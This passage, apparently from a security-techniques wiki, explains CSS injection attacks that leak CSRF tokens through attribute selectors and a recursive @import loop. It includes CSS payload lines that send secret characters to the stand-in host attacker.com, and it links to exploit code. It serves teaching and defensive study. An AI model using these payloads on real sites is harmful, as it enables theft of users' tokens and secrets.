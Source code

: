 However, note that this technique won't work if, in the example, the **csrf name input** is of **type hidden** (and they usually are), because the background won't be loaded.\
However, you can **bypass** this impediment by, instead of making the hidden element load a background, **just make anything after it load the background:**

```css
input[name=csrf][value^=csrF] ~ * {
    background-image: url(https://attacker.com/exfil/csrF);
}
```

Some code example to exploit this: [https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e)

#### Prerequisites

1. The CSS injection needs to allow for sufficiently long payloads
2. Ability to **frame the page to trigger CSS re-evaluation of newly generated payloads**
3. Ability to use **externally hosted images** (could be blocked by CSP)

### @import

The previous technique has some drawbacks, check the prerequisites. You either need to be able to **send multiple links to the victim**, or you need to be able to **iframe the CSS injection vulnerable page**.

However, there is another clever technique that uses **CSS `@import`** to improve the quality of the technique.

This was first showed by [**Pepe Vila**](https://vwzq.net/slides/2019-s3\_css\_injection\_attacks.pdf)  and it works like this:

Instead of loading the same page once and again with tens of different payloads each time (like in the previous one), we are going to **load the page just once and just with an import to the attackers server** (this is the payload to send to the victim):

```css
@import url('//attacker.com:5001/start?');
```

1. The import is going to **receive some CSS script** from the attackers and the **browser will load it**.
2. The first part of the CSS script the attacker will send is **another `@import` to the attackers server again.**
   1. The attackers server won't respond this request yet, as we want to leak some chars and then respond this import with the payload to leak the next ones.
3. The second and bigger part of the payload is going to be an **attribute selector leakage payload**
   1. This will send to the attackers server the **first char of the secret and the last one**
4. Once the attackers server has received the **first and last char of the secret**, it will **respond the import requested in the step 2**.
   1. The response is going to be exactly the same as the **steps 2, 3 and 4**, but this time it will try to **find the second char of the secret and then penultimate**.

The attacker will f**ollow that loop until it manages to leak completely the secret**.

You can find the original [**Pepe Vila's code to exploit this here**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) or you can find almost the [**same code but commented here**.](./#css-injection)
